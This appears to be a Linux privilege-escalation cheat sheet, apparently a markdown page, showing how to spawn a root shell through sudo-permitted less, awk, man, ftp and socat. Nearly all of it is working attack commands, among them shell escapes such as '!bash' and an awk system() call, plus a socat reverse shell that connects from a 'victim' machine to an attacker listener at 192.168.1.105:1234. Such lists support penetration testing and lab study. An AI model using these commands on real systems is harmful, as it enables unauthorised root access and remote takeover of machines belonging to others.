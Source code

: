# Spawn shell using Less Command
requires that the user can run the less command as root user. (usr/bin/less) this can be determined by running
sudo -l
Hence we obtained root access by executing following
sudo less /etc/hosts
It will open requested system file for editing, BUT for spawning root shell type !bash as shown below and hit enter.
!bash
You will get root access.

# Spawn shell using AWK one-liner
requires that the user can run the AWK language program or script as root user. (usr/bin/awk) this can be determined by running
sudo -l
Therefore we obtained root access by executing AWK one-liner.
sudo awk 'BEGIN {system("/bin/bash")}'

# Spawn shell using Man Command (Manual page)
requires that the user can run the less command as root user. (usr/bin/man) this can be determined by running
sudo -l
sudo man man
It will be displaying Linux manual pages for editing, BUT for spawning root shell type !bash as presented below and hit enter, you get root access as done above using Less command.
!bash
You will get root access.

# Spawn Shell Using FTP
get root access through FTP with the help of following commands:
sudo ftp
! /bin/bash
whoami
or
! /bin/sh
id
whoami
>	root

# Spawn Shell Using Socat
get root access through socat with the help of following commands. Execute below command on the attacker’s terminal in order to enable listener for reverse connection.
socat file:`tty`,raw,echo=0 tcp-listen:1234
Then run the following command on victim’s machine and you will get root access on your attacker machine.
socat exec:'sh -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.105:1234
id
whoami
>	root
